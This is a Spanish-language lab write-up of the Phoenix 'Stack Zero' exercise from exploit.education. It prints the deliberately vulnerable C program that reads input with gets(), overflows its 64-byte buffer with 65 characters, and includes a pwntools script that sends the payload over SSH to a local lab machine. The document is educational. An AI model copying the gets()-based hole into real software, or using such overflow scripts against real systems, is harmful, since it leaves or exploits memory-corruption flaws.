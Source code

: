```yaml
---
layout: single
title: "Stack Zero"
permalink: /pwn/phoenix/stack-zero/
parent: Phoenix
comments: true
excerpt: "Stack Zero"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

Este primer nivel introduce el concepto de **desbordamiento de buffer en la pila**. Aquí se muestra cómo es posible acceder a memoria fuera de la región asignada, comprendiendo la disposición de las variables en el stack y cómo una sobrescritura puede alterar el flujo del programa.

El programa define una estructura que contiene un buffer de 64 bytes seguido de una variable changeme. El uso de gets() hace posible escribir más datos de los esperados, sobrescribiendo memoria contigua.


```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

**Ejecución manual**

Primero probamos con un solo carácter:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
A
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

Dado que el buffer tiene 64 bytes, si enviamos 65 caracteres lograremos sobrescribir la variable changeme:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

Enviamos este valor y vemos que realizamos el desbordamiento del buffer 

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

**Explotación con Pwntools**

Para automatizar el proceso creamos un script en Python con pwntools:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ #Define Las Varibles
   5   │ payload = b'A' * 65
   6   │ 
   7   │ # Se conecta al servidor por SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ # Ejecuta el programa remoto
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-zero'])
  12   │ 
  13   │ # Envía el payload 
  14   │ process.sendline(payload)
  15   │ 
  16   │ # captura la respuesta y la envía
  17   │ flag = process.recvall().decode()
  18   │ log.success("Output: " + flag)
  19   │ 
  20   │ # Cierra el proceso
  21   │ process.close()
  22   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

Ejecución del exploit:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 526
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-zero'!
[+] Receiving all data: Done (128B)
[*] Stopped remote process 'stack-zero' on localhost (pid 526)
[+] Output: Welcome to phoenix/stack-zero, brought to you by https://exploit.education
    Well done, the 'changeme' variable has been changed!
```

**Conclusión**

Este reto muestra cómo un buffer overflow simple permite sobrescribir variables locales en la pila. Aunque no se logra ejecución de código arbitrario, es la base para comprender vulnerabilidades más complejas que se verán en los siguientes niveles de la serie Stack.